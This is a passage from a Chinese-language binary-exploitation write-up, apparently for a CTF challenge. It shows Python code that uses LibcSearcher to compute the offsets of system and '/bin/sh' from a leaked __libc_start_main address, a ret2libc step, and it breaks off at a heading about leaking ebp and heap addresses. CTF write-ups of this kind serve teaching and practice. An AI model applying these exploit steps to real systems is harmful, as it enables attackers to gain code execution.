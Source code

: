 ![](./photo/6.jpg)
### 2.2 计算system和/bin/sh地址
通过libc-database或者LibcSearcher进行查询
```
print('[*] __libc_start_main_address is :', hex(__libc_start_main_address))
libc = LibcSearcher('__libc_start_main', __libc_start_main_address)
__libc_start_main_offset = libc.dump('__libc_start_main')
print('__libc_start_main_offset', __libc_start_main_offset )
system_offset = libc.dump('system')
print('system_offset', system_offset)
bin_sh = libc.dump('str_bin_sh')
print('str_bin_sh', bin_sh)
```
![](./photo/7.jpg)
或者使用libc-databases查询，这个库需要下载到本地，查询比较准确
![](./photo/8.jpg)
这样就获取到需要的各种信息
### 2.3 泄露ebp地址以及堆上description地址